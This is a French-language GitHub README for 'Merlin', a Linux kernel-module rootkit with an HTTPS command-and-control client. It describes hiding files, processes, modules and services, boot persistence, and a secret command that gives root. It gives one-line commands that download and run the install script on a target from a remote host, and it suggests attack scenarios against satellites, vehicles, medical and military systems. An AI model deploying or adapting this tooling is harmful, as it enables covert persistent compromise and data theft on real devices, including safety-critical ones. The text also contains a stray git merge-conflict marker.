


# Merlin 2600 LKM-Rootkit 


## [Merlin 2600 Rootkit](#merlin-2600-rootkit)
- [Merlin 2600 LKM-Rootkit](#merlin-2600-lkm-rootkit)
  - [Merlin 2600 Rootkit](#merlin-2600-rootkit)
  - [Introduction](#introduction)
  - [Contexte](#contexte)
  - [Scénario](#scénario)
  - [Technique de hooking](#technique-de-hooking)
  - [Outils à disposition :](#outils-à-disposition-)
  - [Fonctionnalités :](#fonctionnalités-)
  - [Obfuscation](#obfuscation)
  - [Script de création d’une machine image Qcow2 sous Alpine Linux - Kernel 6.10.10](#script-de-création-dune-machine-image-qcow2-sous-alpine-linux---kernel-61010)
  - [Création de la machine virtuelle QEMU](#création-de-la-machine-virtuelle-qemu)
  - [Compilation de MERLIN](#compilation-de-merlin)
  - [Installation de MERLIN](#installation-de-merlin)
  - [Creation d'un utilisateur standard](#creation-dun-utilisateur-standard)
  - [Obtention d'un shell root depuis un utilisateur standard](#obtention-dun-shell-root-depuis-un-utilisateur-standard)
  - [Serveur C2](#serveur-c2)
  - [Demonstration :](#demonstration-)
    - [Obfuscation](#obfuscation-1)
- [C2](#c2)
- [Références](#références)

## Introduction
Merlin est un rootkit linux de type Linux Kernel Module qui fonctionne sur les kernels 6.x NON Signés.
Il n'est pas compatibles avec les distributions avec kernel signé. 

Source du projet : https://github.com/PhOenIx20069/Merlin

## Contexte
Ce type de rootkit est particulièrement adapté au secteur de l'industrie. 
En effet, l'industrie utilise de plus en plus souvent linux comme système d'exploitation en raisons de son faible coût, sa stabilité et sa personnalisation, notamment dans le secteur de l'IOT, embarqué, télécommunications, voitures connectées... mais très souvent les kernels ne sont pas signés.

Plusieurs raisons peuvent motiver les industriels à utiliser des kernels linux non signés:
 - <ins>Adaptation à des besoins spécifiques</ins> (embarqué, télécommunications, automobile) nécessitent des fonctionnalités non disponibles dans les noyaux standards.
 - <ins>Performance optimisée</ins> (les constructeurs peuvent supprimer des modules inutiles ou ajouter des fonctionnalités spécifiques pour des systèmes critiques : temps réel, IoT, etc..)
 - <ins>Flexibilité pour les développeurs</ins> (l'absence de signature facilite le développement et accélère le développement)
 - <ins>Compatibilité avec du matériel ou des logiciels spécifiques ou anciens</ins></ins> (certains système embarqués ne sont pas compatibles avec secure boot par exemple, ou d'anciennes version de kernel)
 - <ins>Environnements isolés ou contrôlés</ins> (dans des environnement totalement isolés d'internet le risque d'attaque est souvent jugé comme réduit. Idem pour les serveur internes derrière des pare-feux ou lorsque le contrôle physique est strictement limité)
 - <ins>Limitation des outils de signature </ins>(certaines entreprises n'ont pas les capacités techniques, humaines et financière pour gérer des systèmes signés. En effet la gestion est  plus coteuse et plus complexe qu'avec un système non signé)
 - <ins>Légales</ins> (bien que certaines réglementation exigent des kernels spécifiques, la signatures n'est pas toujours spécifiquement requise).

Bien que toutes ces raisons soient justifiables, il n'en reste pas moins que l'absence de signature du kernel expose ces systèmes à des attaques par rootkit.

## Scénario
Le champ d'application est vaste :
- <ins>Systèmes embarqués IoT</ins> : Caméras de sécurité, thermostats intelligents, ampoules connectées...
- <ins>Systèmes embarqués industriels</ins> : Contrôleurs programmables (PLC), systèmes SCADA (Supervisory Control and Data Acquisition)...
- <ins>Systèmes embarqués dans les véhicules</ins> : Systèmes de navigation des voitures, systèmes de contrôle moteur, systèmes de communication entre véhicules (V2X)..
- <ins>Dispositifs de télécommunication</ins> : Routeurs, points d'accès Wi-Fi, dispositifs de commutation télécoms...
- <ins>Appareils de gestion d'infrastructure</ins> : Serveurs de stockage en réseau (NAS), dispositifs de gestion de réseau, appareils de calcul embarqué.
- <ins>Dispositifs médicaux connectés<ins> : Pompes à insuline, pacemakers, dispositifs de surveillance à distance des patients...
- <ins>Systèmes embarqués à bord de satellites ou de drones</ins> : Drones autonomes, systèmes embarqués sur des satellites de communication...
- <ins>Systèmes embarqués à usage militaire</ins> : Systèmes de contrôle d'armement, dispositifs de surveillance militaire, drones militaires...
- ... 

Plusieurs scénarios d'attaques sont évidemment envisageables et leur gravité dépendra du secteur d'activité, du type d'appareil compromis et de la capacité de l'attaquant à modifier le système.

Pour ce rootkit nous pourrions imaginer une attaque sur un satellite afin d'écouter les communications, et éventuellement les modifier. L'attaquant pourrait exploiter une vulnérabilité zero-day ou connue mais non patchée afin d'accéder au satellite et installer son rootkit...

Cela pourrait également être un technicien automobile qui modifierai le système d'exloitation du véhicule lors d'une révision. Permettant à un attaquant d'ouvrir le véhicule à distance et permettre à une autre équipe de le voler...

## Technique de hooking
Merlin ne crée pas de nouveau syscalls. Il utilise la technique décrite par Linus torvald sur son repo github (en référence) et notamment kprobe pour hook les appels système. Cela le rend plus furtif puisque la syscall table n'est pas modifiée. 
```c
/* For each probe you need to allocate a kprobe structure */
static struct kprobe kp = {
	.symbol_name	= symbol,
};

/* kprobe pre_handler: called just before the probed instruction is executed */
static int __kprobes handler_pre(struct kprobe *p, struct pt_regs *regs)
{  
  //do something
  return 0;
}
```
## Outils à disposition :
- Merlin (LKM)
- Client C2 HTTPS
- Serveur C2 HTTPS
- Serveur HTTPS python (pour télécharger le script d'installation)
- Certificats client et serveur pour le C2 et le serveur web python
- Script de création d'un LFS Alpine Linux v3.20 Kernel 6.10.10
<<<<<<< HEAD
- Une image QCow2 avec merlin pré-installé 
=======
>>>>>>> a5bf6cade2b6a6004326614808d0ea5e93af4a2f

## Fonctionnalités : 
- Merlin masque tous les fichiers et dossiers dont le nom commence par "merlin_"
- Les processus liés à Merlin et ses programmes compagnons sont masqués.
- Merlin permet à un utilisateur standard d'obtenir les droits root en tapant une simple commande dans le terminal
- Merlin permet d'éxecuter un client Command and control fonctionnant en HTTPS.
- Le script d'installation de Merlin installe un service qui le rend persistant au re-démarrage du système.
  
## Obfuscation 
- Processus list (les processus lié à merlin et ses programmes compagnons sont masqués lors d'un ps)
- Modules chargés (la commande lsmod ne permet pas de voir le module chargé dans le système)
- Fichier et dossiers (tous les fichiers et dossiers commencant par "merlin_" sont masqués).
- La liste des services lancés n'est plus disponible.
- Merlin se cache dans le dossier media pour plus de discrétion

## Script de création d’une machine image Qcow2 sous Alpine Linux - Kernel 6.10.10
Fonctionnalités du script : 
- Utilisation de docker pour télécharger l'image Alpine et créer un LFS.
-	Téléchargement et extraction du kernel 6.10.10. Vous pouvez modifier cette section pour télécharger une autre version.
-	Compilation automatique du kernel avec le plus grand nombre de coeur sur votre machine 
- Création de l'image avec un dossier partagé entre l'hote et la VM Qemu (facilite le développement du rootkit)


## Création de la machine virtuelle QEMU
```bash
git clone https://github.com/PhOenIx20069/Merlin.git
cd Merlin
chmod +x LFS_script.sh
./LFS_script.sh
```


Vous pouvez créer l'image QEMU avec un dossier partagé (à définir en début de script) ou en mode "Distant" (serveur web et C2)  


```bash
# Identifiants de l'image QEMU
login :  root
password  : root
```

## Compilation de MERLIN
```bash
cd modules/merlin
make
```
Vous obtenez un fichier merlin_.ko

## Installation de MERLIN
Ces actions sont à effectuer sur la cible: 

  

- SANS accès réseau :
Utilisez une clé USB OU le dossier partagé de la VM pour déposer sur la cible le fichier merlin_install.sh ET merlin_.ko  
<ins>Le client C2 ne sera pas installé.</ins>
```bash
# sur la cible :
chmod +x /root/merlin_install.sh
/root/merlin_install.sh
# choix 1
``` 
- CONNEXION Reseau locale (serveur Web et C2 locaux) :
```bash
# Sur l'hôte :
python3 merlin_https_web_server.py

# dans un second terminal ou après l'installation sur la cible :
cd c2
python3 merlin_server.py 

# sur la cible :
wget --no-check-certificate https://10.0.2.2:4443/merlin_install.sh -O /root/merlin_install.sh && chmod +x /root/merlin_install.sh && /root/merlin_install.sh

# choix 2
```

- CONNEXION INTERNET (serveur Web et C2 hébergés sur un serveur distant) :   
<ins>ATTENTION : dans ce mode le client C2 cherche à communiquer avec un serveur distant. Le serveur C2 doit donc être hébergé sur un serveur capable de lancer un script python.</ins>
```bash
# sur la cible
wget --no-check-certificate https://perses.feralhosting.com/phoenix2006/merlin_install.sh -O /root/merlin_install.sh && chmod +x /root/merlin_install.sh && /root/merlin_install.sh
# choix 3
```

## Creation d'un utilisateur standard
```bash
identifiant : merlin_
mot de passe : merlin
```

## Obtention d'un shell root depuis un utilisateur standard
```bash
su - merlin
echo Avada_Kedavra
```


## Serveur C2
Dès que le client est installé, il cherche à se connecter au serveur. Si la connexion est interrompue, il essai de se re-connecter toutes les 5 secondes.  
Fonctionnalités :
  - Connexion automatique au serveur (dès que le client est démarré, il ne peut être arrêté. En cas de déconnexion il cherche à se re-connecter toutes les 5 secondes).
  - Envoi de fichier du serveur vers le client
  - Téléchargement de fichier depuis le client vers le serveur.
  - Connexion HTTPS sur le port 2600
  - Gestion des erreurs (en cas de commande non disponible sur la cible ou en cas d'erreur, le serveur ne se fige pas)


## Demonstration :
Installation :   
  


### Obfuscation
Avant / Après  
boot :  
    

init.d :   
    
 
modules insérés :  
  

processus :  
    


# C2  
Connexion établie avec le client  


Envoi et réception de fichiers depuis le serveur C2 :  


# Références
https://github.com/torvalds/linux/blob/master/samples/kprobes/kprobe_example.c  
https://blog.rchapman.org/posts/Linux_System_Call_Table_for_x86_64/
